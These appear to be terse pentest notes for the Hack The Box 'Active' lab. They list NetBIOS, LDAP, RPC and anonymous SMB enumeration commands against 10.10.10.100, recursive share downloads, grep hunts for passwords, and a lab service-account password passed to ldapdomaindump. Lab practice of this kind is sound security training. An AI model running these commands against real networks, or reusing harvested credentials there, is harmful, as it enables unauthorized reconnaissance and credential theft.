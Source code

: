   

  
[[nbtscan]]
[[139]]: nbtscan -r 10.10.10.100

**NBT** stands for **NetBIOS over TCP/IP**.

  

```JavaScript
grep -i "password" *.json
grep -iR "password" .
```

  
[[389]]
389/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)  

ldapdomaindump -u 'active\SVC_TGS' -p 'GPPstillStandingStrong2k18' 10.10.10.100

  

ldapsearch -x -h 10.10.10.100 -b "dc=active,dc=htb"

  
[[rpcclient]]
rpcclient -U "" -N 10.10.10.100  
rpcclient $> enumdomusers

  

[[3268]]3268/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)

[[ldapsearch]]
```JavaScript
ldapsearch -H ldap://10.10.10.100:3268 -x -s base namingcontexts

cme ldap 10.10.10.100 -u '' -p '' 
```

```JavaScript
smbclient //10.10.10.100/replication  -N -c 'recurse;ls' 
smbclient //10.10.10.100/Replication -U "" -N

smbclient -N \\\\10.10.10.100\\Replication -U '' 
smbclient //10.10.10.100/replication -N -c "prompt OFF; recurse ON; mget *"
smbclient \\\\[ip]\\Replication


Try "help" to get a list of possible commands.
smb: \> mget *     
NT_STATUS_NO_SUCH_FILE listing \*
smb: \> prompt 
smb: \> recurse on
smb: \> mget *
```

```JavaScript
grep -ri "password" /path/to/folder
```
